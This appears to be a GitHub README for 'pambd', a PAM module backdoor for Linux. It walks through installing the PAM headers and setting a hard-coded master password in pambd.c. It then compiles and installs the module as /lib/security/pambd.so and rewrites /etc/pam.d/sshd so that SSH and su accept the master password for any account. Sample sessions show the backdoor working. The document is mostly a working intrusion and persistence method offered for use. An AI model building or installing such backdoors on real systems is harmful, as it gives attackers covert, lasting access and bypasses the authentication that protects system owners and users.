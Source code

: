 pambd
=====

Introduction
------------

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

    pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory

First install the package **libpam-dev** that contains the needed headers file for compilation:

    sudo apt-get install libpam0g-dev

Now edit the **pambd.c** and set your master custom password:

    #define MYPASSWD "my_master_passwd"

After that, generate the pam backdoor with:
(It needs the root permissions)

    deftcode ~ $ sudo sh gen.sh

This will generate the pam backdoor at /lib/security/pambd.so


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or others that use PAM like **su** and then replace the content with these lines:

    nauth           sufficient      pam_rootok.so
    auth            sufficient      pam_unix.so     # This must be 'sufficient'.
    account         required        pam_unix.so
    session         required        pam_unix.so
    auth            sufficient      pambd.so        # This is our pam backdoor.
    account         sufficient      pambd.so        # --


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

    deftcode pam.d $ file /lib/security/pambd.so 
    /lib/security/pambd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped

Example with the **SSH** service:

    deftcode pam.d $ ssh eurialo@deftcode.local
    eurialo@deftcode.local's password: 
    
    # eg. enter: my_master_passwd or real_user_password
    
    Last login: Thu May 21 05:55:13 2015 from localhost
    deftcode ~ $ 

Example with **su**:

    deftcode pam.d $ su -
    Password: 

    # eg. enter: my_master_passwd or real_user_password

    deftcode ~ # 
